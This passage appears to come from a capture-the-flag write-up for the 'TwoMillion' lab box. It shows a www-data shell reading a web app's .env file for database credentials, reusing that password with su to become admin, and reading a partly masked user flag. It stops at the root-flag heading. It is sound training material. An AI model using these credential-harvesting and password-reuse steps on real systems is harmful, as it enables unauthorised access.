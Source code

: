 ```console
www-data@2million:~/html$ ls -al
total 56
drwxr-xr-x 10 root root 4096 Aug 18 20:20 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Aug 18 20:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```

At the top we see a .env file, usually used for environment variables and credentials. If we cat that file we get a password for an admin account on htb\_prod database.

```console
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Password re-use is a prevalent thing so before we go poking at databases, let's see if we can switch to the `admin` user:

```console
www-data@2million:~/html$ su -l admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ whoami
admin
```

### User.txt

Now we can poke around over here, and we see that there is a user.txt file. Let's grab that:

```console
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt 
fb6ae0******************
```

## Root Flag
